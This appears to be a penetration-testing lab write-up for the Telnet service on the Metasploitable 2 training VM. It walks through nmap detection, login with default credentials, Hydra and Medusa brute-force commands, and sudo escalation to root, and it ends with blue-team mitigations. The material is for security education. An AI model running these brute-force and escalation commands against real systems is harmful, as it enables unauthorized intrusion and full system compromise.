



01
Vulnerability Overview
Telnet is a legacy remote terminal protocol that transmits all data — including credentials — in plain text. This means any network observer (e.g., on the same subnet) can capture login credentials with a packet sniffer like Wireshark. Metasploitable 2 runs Linux telnetd on port 23 with default credentials.
Even if the password were strong, Telnet would still be dangerous because the session is completely unencrypted. An attacker on the same network can intercept the full session including any commands typed. Always replace Telnet with SSH.
02
Service Detection
bash
nmap -sV -v -p 23 <target-ip>

03
Manual Login — Default Credentials
bash
telnet <target-ip> 23 # At the login prompt: metasploitable login: msfadmin Password: msfadmin

04
Automated Bruteforce
bash
# Hydra telnet bruteforce hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt telnet://<target-ip> # Medusa telnet bruteforce medusa -h <target-ip> -u msfadmin -P /usr/share/wordlists/rockyou.txt -M telnet
05
Privilege Escalation via sudo
Once logged in as msfadmin, the account has unrestricted sudo access:
bash
# Check what sudo can do sudo -l # Shows: (ALL) ALL — full sudo access # Escalate to root sudo su # Password: msfadmin # Verify root access id # uid=0(root) gid=0(root) groups=0(root) whoami # root

06
Results & Impact
Outcome
- Remote user shell obtained via Telnet with default credentials
- Credentials transmitted in plaintext — capturable via network sniffing
- Root shell achieved through unrestricted sudo access
- Full system compromise with persistence options available
Detection & Mitigation (Blue Team)
- Disable Telnet entirely — it is fundamentally insecure (plaintext)
- Replace with SSH for all remote access needs
- Remove or disable default accounts (
msfadmin,user, etc.) - Restrict sudo usage — limit to only required commands per user
- Apply firewall rules to block port 23 from external networks
- Capture Telnet traffic in your IDS/SIEM — any Telnet session should alert